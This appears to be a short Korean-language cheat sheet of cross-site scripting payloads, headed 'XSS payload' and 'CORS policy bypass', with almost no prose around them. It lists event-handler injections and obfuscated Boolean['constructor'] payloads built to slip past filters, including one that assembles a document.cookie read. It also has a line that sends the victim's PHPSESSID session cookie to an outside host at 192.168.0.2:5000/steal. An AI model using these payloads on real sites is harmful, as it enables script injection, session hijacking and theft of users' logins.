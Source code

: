 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
Boolean['constructor']('alert(1);')();

Boolean['constructor']('a' + 'l' + 'e' + 'r' + 't' + '(1)')();

Boolean['constructor']('a'+'l'+'e'+'r'+'t'+'('+'d'+'o'+'c'+'u'+'m'+'e'+'n'+'t'+'.'+'c'+'o'+'o'+'k'+'i'+'e'+')')();


# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

";Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();"


;window.open("https://naver.com");
